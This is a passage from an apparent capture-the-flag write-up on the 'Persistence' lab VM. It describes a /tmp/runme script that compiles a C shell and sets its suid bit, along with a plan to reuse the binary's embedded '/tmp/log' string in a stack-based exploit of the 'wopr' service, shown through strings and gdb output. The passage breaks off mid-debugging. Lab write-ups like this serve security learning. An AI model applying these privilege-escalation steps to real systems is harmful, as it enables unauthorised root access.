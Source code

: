 These failed mostly due to by own lack of understanding, tiredness and frustration. My attempts generally was to get a script `/tmp/runme` to run. `runme` was a bash script that will compile a small C shell, change ownership and set the suid bit. Yes, Persistence had `gcc` installed :)

"fail" * 100000 * 100000. That is a rough guestimate of the amount of times I tried this part.

Eventually, I finally came to the realization that I may have to search for other avenues of code execution. In fact, I completely stepped away from the VM and did something else.

Returning later with a fresh look, I run wopr through `strings` one more time:

```bash wopr strings
root@kali:~/Desktop/persistence# strings  wopr
/lib/ld-linux.so.2
__gmon_start__
libc.so.6
_IO_stdin_used

[.. snip ..]

[^_]
[+] yeah, I don't think so
socket
setsockopt
bind
[+] bind complete
listen
/tmp/log          # <<<<<<<<<<<<<<<<<<<<<<<<<<
TMPLOG
[+] waiting for connections
[+] logging queries to $TMPLOG
accept
[+] got a connection
[+] hello, my name is sploitable
[+] would you like to play a game?
[+] bye!
```

See that? Can you **see** that... We have `/tmp/log` RIGHT THERE!

I confirmed that `/tmp/log` wasn't actually in use, and moved my original `/tmp/runme` script there.

The only thing that was left now was to find the location of the string `/tmp/log` in `wopr`, push that to the stack, and ride the bus home. So lets do the hard work required to find this valuable piece of the puzzle:

```bash finding /tmp/log
root@kali:~# gdb -q ./wopr
Reading symbols from wopr...(no debugging symbols found)...done.

gdb-peda$ b *main
Breakpoint 1 at 0x80487de

gdb-peda$ r
[----------------------------------registers-----------------------------------]
EAX: 0xbffff4a4 --> 0xbffff60a ("wopr")
EBX: 0xb7fbfff4 --> 0x14bd7c 
ECX: 0x66a6f92e 
EDX: 0x1 
ESI: 0x0 
EDI: 0x0 
EBP: 0xbffff478 --> 0x0 
ESP: 0xbffff3fc --> 0xb7e8ae36 (<__libc_start_main+230>:    mov    DWORD PTR [esp],eax)
EIP: 0x80487de (<main>: push   ebp)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80487d7 <get_reply+99>:    call   0x804865c <__stack_chk_fail@plt>
```